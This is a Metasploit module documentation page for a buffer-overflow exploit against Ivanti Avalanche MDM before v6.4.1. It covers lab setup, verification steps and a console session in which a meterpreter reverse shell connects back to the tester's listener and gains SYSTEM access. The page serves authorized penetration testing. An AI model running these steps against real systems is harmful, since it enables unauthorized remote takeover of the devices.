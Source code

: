 ## Vulnerable Application

Ivanti Avalanche powered by Wavelink is a mobile device management system. Network security
features allow you to manage wireless settings (including encryption and authentication),
and apply those settings on a schedule throughout the network. Software distribution features
allow you to schedule software distribution to specific devices from the Avalanche Console.
Avalanche also provides tools for managing alerts and reports.

This module exploits a buffer overflow condition in Ivanti Avalanche MDM versions before `v6.4.1`.
An attacker can send a specially crafted message to the Wavelink Avalanche Manager,
which could result in arbitrary code execution with the `NT/AUTHRITY SYSTEM` permissions.
This vulnerability occurs during the processing of 3/5/8/100/101/102 item data types.
The program tries to copy the item data using `qmemcopy` to a fixed size data buffer on stack.
Upon successfull exploitation the attacker gains full access to the target system.

The original analysis and the vulnerability discovery is done by the Tenable.
Check [here](https://www.tenable.com/security/research/tra-2023-27) for public advisory.

## Testing
For installing the vulnerable version follow the steps below,
1. To obtain the vulnerable versions of the MDM setup, first create a customer account at
[Ivanti](https://success.ivanti.com/customers/Community_RegStep1_Page?lp=register) (trial license is sufficient)
2. Navigate [here](https://www.wavelink.com/Download-Avalanche_Mobile-Device-Management-Software/)
and download any version **below** `v6.4.1`
3. Follow the installation steps.

After these steps, the MDM service should be accessible on port 1777.

## Verification Steps

1. msfconsole
2. Do: `use exploit/windows/misc/ivanti_avalanche_mdm_bof`
3. Do: `set RHOST [IP]`
4. Do: `run`
5. You should get a session.

## Options

## Scenarios

```
msf6 > use exploit/windows/misc/ivanti_avalanche_mdm_bof
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set rhosts 192.168.56.109
rhosts => 192.168.56.109
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(windows/misc/ivanti_avalanche_mdm_bof) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] 192.168.56.109:1777 - Connecting to target...
[*] 192.168.56.109:1777 - Sending payload...
[*] Sending stage (175686 bytes) to 192.168.56.109
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.109:49967) at 2023-08-25 19:15:42 +0200

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >

```
